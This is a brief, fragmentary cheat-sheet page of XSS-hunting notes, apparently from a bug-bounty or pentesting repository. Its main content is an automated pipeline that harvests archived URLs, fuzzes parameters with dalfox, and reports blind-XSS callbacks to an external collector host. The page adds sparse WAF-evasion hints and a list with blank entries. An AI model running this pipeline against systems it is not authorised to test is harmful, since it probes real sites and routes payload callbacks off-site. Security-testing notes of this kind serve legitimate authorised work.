 <h1>XSS</h1>

<h3>Automated tool</h3>
<p><code>waybackurls @ | gf xss | qsreplace -a | Gxss | dalfox pipe -b angelito001.xss.ht -F | grep '[POC]' | notify -provider-config provider-config.yaml</code></p>

<h4>To test:</h4>
<ul>
  <li>SVG, HTML, JS, XML and CSS Files with payloads.</li>
  <li></li>
  <li>Files</li>
  <li>Files</li>
  <li>Files</li>
</ul>

<h5>Evasion WAF</h5>
<p>Test: §TEST§ adding: </p>
<p>All tags with html.</p>
<p>+ Tag add events.</p>
